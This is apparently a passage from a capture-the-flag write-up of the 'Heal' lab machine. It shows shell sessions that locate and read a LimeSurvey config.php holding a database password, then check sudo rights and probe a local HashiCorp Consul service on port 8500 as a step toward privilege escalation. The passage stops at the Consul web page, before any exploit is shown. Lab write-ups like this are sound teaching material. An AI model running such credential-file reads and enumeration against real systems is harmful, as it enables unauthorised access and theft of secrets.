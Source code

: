 I managed to control the target system as a low-privilege user, and my attack vector was targeted to find the password of user `ron`. I enumerated the files related to the configuration using the `find` command and found the location of the configuration file that contained a password.

```shell
www-data@heal:~/limesurvey$ find . -name "config.php" 2>/dev/null
./vendor/kcfinder/conf/config.php
./vendor/yiisoft/yii/framework/messages/config.php
./vendor/yiisoft/yii/requirements/messages/config.php
./application/config/config.php

www-data@heal:~/limesurvey$ cat ./application/config/config.php
[SNIP]
'username' => 'db_user',
'password' => 'AdmiDi0_pA$$w0rd',
'charset' => 'utf8',
'tablePrefix' => 'lime_',
[SNIP]
```
{: .nolineno}

## Privilege Escalation
User `ron` had no `sudo` privileges, but a local service on port 8500 (HashiCorp Consul) was exposed.

```shell
ron@heal:~$ ls -la
ls -la
total 28
drwxr-x--- 3 ron  ron  4096 Dec  9 15:13 .
drwxr-xr-x 4 root root 4096 Dec  9 12:53 ..
lrwxrwxrwx 1 root root    9 Dec  9 12:57 .bash_history -> /dev/null
-rw-r--r-- 1 ron  ron   220 Dec  9 12:53 .bash_logout
-rw-r--r-- 1 ron  ron  3771 Dec  9 12:53 .bashrc
drwx------ 2 ron  ron  4096 Dec  9 15:13 .cache
-rw-r--r-- 1 ron  ron   807 Dec  9 12:53 .profile
-rw-r----- 1 root ron    33 May 18 12:00 user.txt

ron@heal:~$ sudo -l
[sudo] password for ron:
Sorry, user ron may not run sudo on heal.

ron@heal:~$ ss -tuln | grep 127
[SNIP]
tcp   LISTEN 0      4096       127.0.0.1:8500       0.0.0.0:*

ron@heal:~$ curl 127.0.0.1:8500
curl 127.0.0.1:8500
<a href="/ui/">Moved Permanently</a>.

ron@heal:~$ curl 127.0.0.1:8500/ui/
curl 127.0.0.1:8500/ui/
<!DOCTYPE html>
<!--
 Copyright (c) HashiCorp, Inc.
 SPDX-License-Identifier: BUSL-1.1
-->

<html lang="en" class="ember-loading">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Consul by HashiCorp</title>
    <meta name="description" content="">
```